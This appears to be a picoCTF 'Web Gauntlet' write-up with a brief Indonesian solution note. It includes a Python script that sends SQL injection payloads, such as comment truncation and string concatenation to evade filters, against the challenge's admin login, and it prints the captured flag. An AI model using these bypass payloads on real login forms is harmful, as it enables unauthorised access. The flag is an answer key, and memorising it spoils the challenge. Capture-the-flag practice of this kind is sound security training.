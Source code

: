 <h1>Web Gauntlet</h1>
<h3>Description</h3>
<pre>
Can you beat the filters? Log in as admin <a href='http://jupiter.challenges.picoctf.org:44979/'>Challe</a> and <a href='http://jupiter.challenges.picoctf.org:44979/filter.php'>filter</a>
</pre>
<h3>Solution</h3>
<p>SQL injection round 1 hingga 5(clue ada di filter), dan flag ada di page filter.php</p>

```python3
import requests

url = 'http://jupiter.challenges.picoctf.org:44979/'
s = requests.Session()
data = {'user':"admin'-- ",'pass':"123"}
res = s.post(url,data=data).text
if "Round 2" in res:
    data = {'user':"admin';",'pass':"123"}
    res = s.post(url,data=data).text
    if "Round 3" in res:
        data = {'user':"admin';",'pass':"123"}
        res = s.post(url,data=data).text
        if "Round 4" in res:
            data = {'user':"adm'||'in';",'pass':"123"}
            res = s.post(url,data=data).text
            if "Round 5" in res:
                data = {'user':"adm'||'in';",'pass':"123"}
                res = s.post(url,data=data).text
                if "You won!" in res:
                    res = s.get(url+'filter.php').text
                    start = 'picoCTF{'
                    end = '}'
                    index_start = res[res.find(start):]
                    index_end = index_start.find(end)
                    print(index_start[:index_end+1])
                
```
<h3>Flag</h3>
<pre>
picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}
</pre>
